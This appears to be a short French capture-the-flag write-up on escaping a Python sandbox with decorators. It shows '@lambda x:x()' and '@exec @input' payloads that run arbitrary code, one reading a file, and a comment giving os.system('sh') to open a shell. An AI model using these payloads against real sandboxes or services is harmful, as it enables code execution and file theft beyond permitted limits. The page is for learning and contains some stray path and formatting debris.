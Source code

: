 Dans les caractères admis pour débuter une ligne, on aperçoit la présence de "@"

Les @ en Python représentent les décorateurs. Ils permettent d'appliquer une fonction à une autre.
Exemple:
```python
@print
def x():
	pass
```
```
<function x at 0x0000029C4C34F3A0>
```

Les décorateurs sont appliqués lors de la compilation, ce qui est très intéressant pour nous!
Cela permet d'executer du code sans avoir recours à l'appel d'une fonction de manière traditionnel.

Il y a de nombreux *payloads* possibles à partir de là.

Nous pouvons executer la fonction directement:
```python
@lambda x:x()    # Fonction anonyme qui fait simplement l'appel de la fonction
def payload():
	print("mouahahahah >:)")
	# On peut faire tout ce qu'on veut
	with open("toolkit.py","r") as f:
		print(f.read())
```

Nous pouvons aussi avoir une execution de code Python arbitraire:
```python
# Payload très connue, trouvable sur Hacktricks notamment
@exec
@input
def x():
	pass
```
```
<function x at 0x0000029C4C34F3A0>print("mouahahahahaha") # __import__('os').system('sh') pour avoir un shell
```
mouahahahahaha
```